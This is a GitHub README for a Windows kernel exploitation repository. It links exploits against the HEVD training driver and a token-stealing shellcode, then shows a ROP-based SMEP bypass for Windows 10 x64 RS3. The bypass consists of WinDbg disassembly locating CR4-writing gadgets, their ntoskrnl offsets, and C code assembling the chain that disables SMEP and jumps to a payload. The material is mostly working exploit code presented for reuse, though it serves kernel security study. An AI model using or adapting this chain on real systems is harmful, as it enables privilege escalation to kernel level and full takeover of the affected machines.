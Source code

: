 # Kernel SAGA
Windows Kernel Exploitation. <br>
Static & dynamic analysis, exploits & vuln reasearch. <br>
Mitigations bypass's <br>

# Contents:
HEVD-Vanilla-Bug-Class's:<br>
Exploits & Vuln Note's in order to reproduce & reuse.<br>
* <html><a href="https://github.com/akayn/demos/tree/master/HEVD-Vanilla-Bug-Class's">HEVD-Vanilla-Bug-Class's</a></html><br>
	[+] <html><a href="https://github.com/akayn/demos/blob/master/HEVD-Vanilla-Bug-Class's/Compiled.zip?raw=true">Compiled-win7x86</a></html><br>
	* <html><a href="https://github.com/akayn/demos/blob/master/HEVD-Vanilla-Bug-Class's/HEVD-TypeConfX86Win7.c">Type Confusion</a></html>.<br>
	* <html><a href="https://github.com/akayn/demos/blob/master/HEVD-Vanilla-Bug-Class's/HEVD-ArbitraryOverwritex86win7.c">Arbitrary Overwrite</a></html>.<br>
	* <html><a href="https://github.com/akayn/demos/blob/master/HEVD-Vanilla-Bug-Class's/HEVD-NullPointerDereference.c">Null Pointer Dereference</a></html>.<br>
	* <html><a href="https://github.com/akayn/demos/blob/master/HEVD-Vanilla-Bug-Class's/HEVD-PoolOverFlow-Win7-x86.c">Pool OverFlow</a></html>.<br>
	* <html><a href="https://github.com/akayn/demos/blob/master/HEVD-Vanilla-Bug-Class's/HEVD-StackOverFlowx86Win7.c">Stack OverFlow</a></html>.<br>
	* <html><a href="https://github.com/akayn/demos/blob/master/HEVD-Vanilla-Bug-Class's/HEVD-Uaf-Win7x86.c">Use After Free</a></html>.<br>
	* <html><a href="https://github.com/akayn/demos/blob/master/HEVD-Vanilla-Bug-Class's/HEVD-UninitializedStackVariableWin7x86.c">Uninitialized Stack Variable</a></html>.<br>
ShellCode: <html><a href="https://github.com/akayn/demos/blob/master/Win10/PayLoads/TokenStealingShellCode.asm">pl.asm</a></html><br>
ROP Based SMEP Bypass including Gadgets & full debugging info: <html><a href="https://github.com/akayn/demos/blob/master/Win10/SmepByPassWin10x64build.16281Rs3/demo.cc">SmepBypassX64Win10RS3.c</a></html><br>

# SMEP bypass on Win10x64 RS3 16281
![](Win10/SmepByPassWin10x64build.16281Rs3/poc/QuickPoc.gif)
# Gadgets Summery:

```c

/*
************* Symbol Path validation summary **************
Response                         Time (ms)     Location
Deferred                                       srv*
Symbol search path is: srv*
Executable search path is:
Windows 10 Kernel Version 16281 MP (1 procs) Free x64
Built by: 16281.1000.amd64fre.rs3_release.170829-1438
Machine Name:
Kernel base = 0xfffff803`a8a10000 PsLoadedModuleList = 0xfffff803`a8d79f70
System Uptime: 0 days 0:00:00.419
KDTARGET: Refreshing KD connection
Break instruction exception - code 80000003 (first chance)
kd> uf nt!KiFlushCurrentTbWorker
nt!KiFlushCurrentTbWorker:
fffff803`a8ab9b0c 0f20e1          mov     rcx,cr4
fffff803`a8ab9b0f 84c9            test    cl,cl
fffff803`a8ab9b11 790f            jns     nt!KiFlushCurrentTbWorker+0x16 (fffff803`a8ab9b22)  Branch
nt!KiFlushCurrentTbWorker+0x7:
fffff803`a8ab9b13 488bc1          mov     rax,rcx
fffff803`a8ab9b16 480fbaf007      btr     rax,7
fffff803`a8ab9b1b 0f22e0          mov     cr4,rax
fffff803`a8ab9b1e 0f22e1          mov     cr4,rcx <<<< -- gadget..
fffff803`a8ab9b21 c3              ret
nt!KiFlushCurrentTbWorker+0x16:
fffff803`a8ab9b22 0f20d8          mov     rax,cr3
fffff803`a8ab9b25 0f22d8          mov     cr3,rax
fffff803`a8ab9b28 c3              ret
kd> ? fffff803`a8ab9b1e - 0xfffff803`a8a10000
Evaluate expression: 695070 = 00000000`000a9b1e <<< -- offset from Ntoskrnl...
kd> uf nt!HvlEndSystemInterrupt
nt!HvlEndSystemInterrupt:
fffff803`a8b8d950 4851            push    rcx
fffff803`a8b8d952 50              push    rax
fffff803`a8b8d953 52              push    rdx
fffff803`a8b8d954 65488b142508620000 mov   rdx,qword ptr gs:[6208h]
fffff803`a8b8d95d b970000040      mov     ecx,40000070h
fffff803`a8b8d962 0fba3200        btr     dword ptr [rdx],0
fffff803`a8b8d966 7206            jb      nt!HvlEndSystemInterrupt+0x1e (fffff803`a8b8d96e)  Branch
nt!HvlEndSystemInterrupt+0x18:
fffff803`a8b8d968 33c0            xor     eax,eax
fffff803`a8b8d96a 8bd0            mov     edx,eax
fffff803`a8b8d96c 0f30            wrmsr
nt!HvlEndSystemInterrupt+0x1e:
fffff803`a8b8d96e 5a              pop     rdx
fffff803`a8b8d96f 58              pop     rax
fffff803`a8b8d970 59              pop     rcx  <<< --- gadget...
fffff803`a8b8d971 c3              ret
kd> ? fffff803`a8b8d970 - 0xfffff803`a8a10000
Evaluate expression: 1562992 = 00000000`0017d970 << -- offset..
kd> uf nt!KiConfigureDynamicProcessor
nt!KiConfigureDynamicProcessor:
fffff803`e223ec38 4883ec28        sub     rsp,28h
fffff803`e223ec3c e87b49ffff      call    nt!KiEnableXSave (fffff803`e22335bc)
fffff803`e223ec41 4883c428        add     rsp,28h
fffff803`e223ec45 c3              ret
kd> uf nt!KiEnableXSave
nt!KiEnableXSave:
fffff803`e22335bc 0f20e1          mov     rcx,cr4
fffff803`e22335bf 48f7054e4bfdff00008000 test qword ptr [nt!KeFeatureBits (fffff803`e2208118)],800000h
fffff803`e22335ca b800000400      mov     eax,40000h
fffff803`e22335cf 0f8450740000    je      nt!KiEnableXSave+0x7469 (fffff803`e223aa25)  Branch
nt!KiEnableXSave+0x19:
fffff803`e22335d5 4885c8          test    rax,rcx
fffff803`e22335d8 7453            je      nt!KiEnableXSave+0x71 (fffff803`e223362d)  Branch
nt!KiEnableXSave+0x1e:
fffff803`e22335da 48bad803000080f7ffff mov rdx,0FFFFF780000003D8h
fffff803`e22335e4 33c9            xor     ecx,ecx
fffff803`e22335e6 488b12          mov     rdx,qword ptr [rdx]
fffff803`e22335e9 488bc2          mov     rax,rdx
fffff803`e22335ec 48c1ea20        shr     rdx,20h
fffff803`e22335f0 0f01d1          xsetbv
fffff803`e22335f3 48baf005000080f7ffff mov rdx,0FFFFF780000005F0h
fffff803`e22335fd 488b12          mov     rdx,qword ptr [rdx]
fffff803`e2233600 4885d2          test    rdx,rdx
fffff803`e2233603 0f8509740000    jne     nt!KiEnableXSave+0x7456 (fffff803`e223aa12)  Branch
nt!KiEnableXSave+0x4d:
fffff803`e2233609 65488b0c2520000000 mov   rcx,qword ptr gs:[20h]
fffff803`e2233612 488d81f0010000  lea     rax,[rcx+1F0h]
fffff803`e2233619 483981c0620000  cmp     qword ptr [rcx+62C0h],rax
fffff803`e2233620 740a            je      nt!KiEnableXSave+0x70 (fffff803`e223362c)  Branch
nt!KiEnableXSave+0x66:
fffff803`e2233622 8189c862000040001000 or  dword ptr [rcx+62C8h],100040h
nt!KiEnableXSave+0x70:
fffff803`e223362c c3              ret  Branch
nt!KiEnableXSave+0x71:
fffff803`e223362d 480bc8          or      rcx,rax
fffff803`e2233630 0f22e1          mov     cr4,rcx
fffff803`e2233633 eba5            jmp     nt!KiEnableXSave+0x1e (fffff803`e22335da)  Branch
nt!KiEnableXSave+0x7456:
fffff803`e223aa12 488bc2          mov     rax,rdx
fffff803`e223aa15 b9a00d0000      mov     ecx,0DA0h
fffff803`e223aa1a 48c1ea20        shr     rdx,20h
fffff803`e223aa1e 0f30            wrmsr
fffff803`e223aa20 e9e48bffff      jmp     nt!KiEnableXSave+0x4d (fffff803`e2233609)  Branch
nt!KiEnableXSave+0x7469:
fffff803`e223aa25 4885c8          test    rax,rcx
fffff803`e223aa28 0f84fe8bffff    je      nt!KiEnableXSave+0x70 (fffff803`e223362c)  Branch
nt!KiEnableXSave+0x7472:
fffff803`e223aa2e 480fbaf112      btr     rcx,12h
fffff803`e223aa33 0f22e1          mov     cr4,rcx <<<--- gadget...
fffff803`e223aa36 c3
kd> ? fffff803`e223aa33 - fffff803`e1e06000
Evaluate expression: 4409907 = 00000000`00434a33 <<-- offset..
*/

  	// To better align the buffer,
	// it is usefull to declare a
	// memory structure, other-wise you will get holes
	// in the buffer and end up with an access violation.
	typedef struct _RopChain {
		PUCHAR HvlEndSystemInterrupt;
		PUCHAR Var;
		PUCHAR KiEnableXSave;
		PUCHAR payload;
		// PUCHAR deviceCallBack;
	} ROPCHAIN, *PROPCHAIN;


  	// Pack The buffer as:  

	ROPCHAIN Chain;

	// nt!HvlEndSystemInterrupt+0x1e --> Pop Rcx; Retn;
	Chain.HvlEndSystemInterrupt = Ntos + 0x17d970;

	// kd> r cr4
	// ...1506f8
	Chain.Var = (PUCHAR)0x506f8;


	// nt!KiEnableXSave+0x7472 --> Mov Cr4, Rcx; Retn;
	Chain.KiEnableXSave = Ntos + 0x434a33;

	Chain.payload = (PUCHAR)pl;

	/*
	kd> k
	08 ffffb302`61b1e7f0 fffff802`4f85c20b nt!IofCallDriver+0x59
	09 ffffb302`61b1e830 fffff802`4f85ba5f nt!IopSynchronousServiceTail+0x1ab
	0a ffffb302`61b1e8e0 fffff802`4f85b3c6 nt!IopXxxControlFile+0x67f
	0b ffffb302`61b1ea20 fffff802`4f58f953 nt!NtDeviceIoControlFile+0x56
	0c ffffb302`61b1ea90 00007ffd`fae7d6e4 nt!KiSystemServiceCopyEnd+0x13
	0d 00000029`6b9af888 00007ffd`f75a13aa ntdll!NtDeviceIoControlFile+0x14
	0e 00000029`6b9af890 00000000`00000000 0x00007ffd`f75a13aa
	kd> u nt!IofCallDriver+0x59
	nt!IofCallDriver+0x59:
	fffff802`4f425b49 4883c438        add     rsp,38h
	fffff802`4f425b4d c3              ret
	fffff802`4f425b4e 0fb64001        movzx   eax,byte ptr [rax+1]
	fffff802`4f425b52 2c02            sub     al,2
	fffff802`4f425b54 3c01            cmp     al,1
	fffff802`4f425b56 77dc            ja      nt!IofCallDriver+0x44 (fffff802`4f425b34)
	fffff802`4f425b58 488bca          mov     rcx,rdx
	fffff802`4f425b5b e8c4890f00      call    nt!IopPoHandleIrp (fffff802`4f51e524)
	
	 The Call is always in a fixed location from Ntoskrnl...
	*/

	// nt!IofCallDriver+0x59
	LPVOID deviceCallBack = (LPVOID)(Ntos + 0x22b49);

```

![](https://github.com/akayn/demos/blob/master/Win10/SmepByPassWin10x64build.16281Rs3/poc/SMEPBypass.PNG)
